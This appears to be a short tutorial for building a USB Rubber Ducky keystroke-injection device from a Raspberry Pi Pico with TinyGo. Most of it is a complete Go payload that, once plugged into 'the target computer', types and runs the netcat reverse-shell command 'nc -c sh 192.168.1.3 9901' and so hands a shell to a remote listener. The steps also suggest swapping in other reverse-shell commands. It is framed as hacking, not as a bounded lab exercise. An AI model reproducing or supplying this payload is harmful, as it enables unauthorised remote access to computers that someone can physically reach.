



What is a USB Rubber Ducky?
A USB Rubber Ducky is a device that appears as a keyboard to the target computer. When plugged in, it can execute pre-programmed keystrokes at incredible speeds, making it useful for security testing and demonstrations.
Why Pi Pico?
The Raspberry Pi Pico offers several advantages:
- Cost-effective alternative to commercial USB Rubber Ducky devices
- Highly customizable and programmable
- Small form factor
- Open-source firmware and tools
Getting Started
To use the Pi Pico as a USB HID device, you'll need to flash it with appropriate firmware that enables HID functionality. There are several approaches:
Tools
- Pi Pico (RP 2040)
- Convert male USB - male type-c



Steps
- Install TinyGo
- Create a new directory for the project
- Create a new file called main.go
- Write the following code : this example for connection netcat to the server
- Connect the Pi pico to the PC
- Run the following command to flash the firmware to the Pi pico
- Connect the converted USB to the target computer
- can you using command reverse shell for reverse shell site
package main
import (
"machine/usb/hid/keyboard"
"time"
)
func main() {
kb := keyboard.Port()
time.Sleep(3 * time.Second)
kb.Down(keyboard.KeyLeftCtrl)
kb.Press(keyboard.KeyP)
kb.UpAll()
time.Sleep(1 * time.Second)
cmd := "nc -c sh 192.168.1.3 9901"
typeString(kb, cmd)
kb.Press(keyboard.KeyEnter)
}
func typeString(kb *keyboard.Device, str string) {
for _, char := range str {
switch char {
case ' ':
kb.Press(keyboard.KeySpace)
case '.':
kb.Press(keyboard.KeyPeriod)
case '-':
kb.Press(keyboard.KeyMinus)
case '0': kb.Press(keyboard.Key0)
case '1': kb.Press(keyboard.Key1)
case '2': kb.Press(keyboard.Key2)
case '3': kb.Press(keyboard.Key3)
case '4': kb.Press(keyboard.Key4)
case '5': kb.Press(keyboard.Key5)
case '6': kb.Press(keyboard.Key6)
case '7': kb.Press(keyboard.Key7)
case '8': kb.Press(keyboard.Key8)
case '9': kb.Press(keyboard.Key9)
default:
if char >= 'a' && char <= 'z' {
k := keyboard.Code(uint8(keyboard.KeyA) + uint8(char-'a'))
kb.Press(k)
}
}
time.Sleep(20 * time.Millisecond)
}
}
tinygo flash -target=pico main.go
Note: I chose TinyGo because I like the Go language,
it’s faster than Python, and it’s generally more practical and efficient
for hacking purposes.